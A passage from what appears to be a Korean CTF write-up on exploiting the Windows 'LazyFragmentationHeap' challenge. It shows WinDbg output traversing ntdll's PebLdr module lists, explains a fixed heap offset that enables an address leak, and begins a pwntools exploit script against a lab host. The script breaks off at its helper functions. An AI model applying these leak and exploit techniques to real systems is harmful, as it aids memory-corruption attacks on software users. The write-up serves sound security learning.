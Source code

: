 **ntdll.dll**은 아무래도 Windows의 핵심 모듈이다 보니 외부 모듈을 참조하지 않아 IAT는 없지만, 내부적으로 **PebLdr**이라고 **_PEB->Ldr**가 가리키는 로드된 모듈끼리의 Double Linked List가 존재합니다.

```
0:001> dt ntdll!_PEB @$peb Ldr
   +0x018 Ldr : 0x00007ffd`09c653c0 _PEB_LDR_DATA <---------|
                                                            |
0:001> ? ntdll!PebLdr                                       |
Evaluate expression: 140724767445952 = 00007ffd`09c653c0 <--|

0:001> dt ntdll!_PEB_LDR_DATA 00007ffd`09c653c0
   +0x000 Length           : 0x58
   +0x004 Initialized      : 0x1 ''
   +0x008 SsHandle         : (null) 
   +0x010 InLoadOrderModuleList : _LIST_ENTRY [ 0x0000016c`d7702780 - 0x0000016c`d7705d20 ]
   +0x020 InMemoryOrderModuleList : _LIST_ENTRY [ 0x0000016c`d7702790 - 0x0000016c`d7705d30 ]
   +0x030 InInitializationOrderModuleList : _LIST_ENTRY [ 0x0000016c`d7702610 - 0x0000016c`d7702e40 ]
   +0x040 EntryInProgress  : (null) 
   +0x048 ShutdownInProgress : 0 ''
   +0x050 ShutdownThreadId : (null) 

0:001> dqs 16c`d7702780
0000016c`d7702780  0000016c`d77025f0
0000016c`d7702788  00007ffd`09c653d0 ntdll!PebLdr+0x10
0000016c`d7702790  0000016c`d7702600
0000016c`d7702798  00007ffd`09c653e0 ntdll!PebLdr+0x20
0000016c`d77027a0  00000000`00000000
0000016c`d77027a8  00000000`00000000
0000016c`d77027b0  00007ff7`6f400000 LazyFragmentationHeap
0000016c`d77027b8  00007ff7`6f401bf0 LazyFragmentationHeap+0x1bf0
....
```

분석을 하다 알게되었는데, **_PEB_LDR_DATA->InLoadOrderModuleList**가 가리키는 Heap 영역의 offset이 항상 **0x27b0**으로 고정되어 있어 아래와 같이 바로 leak할 수 있고, IAT를 통해 다른 라이브러리의 주소도 구할 수 있었습니다.

```python
from pwn import *

# context.log_level = "debug"

# HOST = "192.168.56.102" # VirtualBox Host-Only Adapter
HOST = "192.168.0.18" # VirtualBox Bridge 
PORT = 6677
SIZE = 0xC8 # yes, I intend korean slang

hi = None
sla = None

def alloc(chunk_id, size):
	sla("Your choice: ", str(1))
 	sla("Size:", str(size))
	sla("ID:", str(chunk_id))

def edit(chunk_id, val, need_newline=True):
	sla("Your choice: ", str(2))
	sla("ID:", str(chunk_id))
	if need_newline:
		sla("Content:", val)
	else:
		hi.sendafter("Content:", val)

def show(chunk_id):
	sla("Your choice: ", str(3))
```